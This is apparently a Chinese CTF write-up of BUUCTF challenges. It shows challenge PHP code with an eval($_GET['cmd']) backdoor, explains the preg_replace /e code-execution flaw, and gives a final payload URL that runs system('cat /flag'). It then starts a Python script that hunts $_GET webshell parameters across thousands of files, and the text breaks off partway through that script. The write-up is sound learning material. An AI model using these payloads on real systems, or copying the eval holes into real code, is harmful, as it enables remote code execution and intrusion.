 ```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

到这里就给我整不会了，空有函数，无法调用
看了WP发现是**preg_replace**的漏洞，在php7之后已被ban
这篇讲的比我好，而且我正则实在太差了，先放个文章，以后总结的时候再细学一下
[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

最终payload
`http://7bd80b89-b26c-4543-840a-0049a4ae06bf.node4.buuoj.cn:81/?text=php://input&file=next.php&(\S*)=${getFlag()}&cmd=system('cat /flag');`



### [强网杯 2019]高明的黑客



这题在buu上做实在是太折磨人🌶
buu上的环境扫描快了就报429，而这题保守估计有几万条数据要处理，假设我一秒10条，也要两三个小时
打开本题源码的时候我是懵的，几千个文件，然后搜了一下**eval**，其实也就几千个
这个时候我还是很有信心的，就是找到文件里的所有马然后一个个试，看哪个能用嘛

用我的烂python写了一个烂脚本(写了很久很久很久)

```python
import sys
import os
import re
from turtle import st
import requests
import time

path=r"E:\phpstudy_pro\WWW\test\src"
print(path)
files=os.listdir(path)  #得到所有文件名输出到一个表里面
url='http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/'

for file in files:
    f=open(path+"\\"+file,"r")
    text=f.readlines()
    f.close()
    #print(text)
    for line in text:
        start1=line.find("$_GET[")#开始只找了包含eval的
        if start1!=-1:
            #print(line)
            end=line.find("']")
```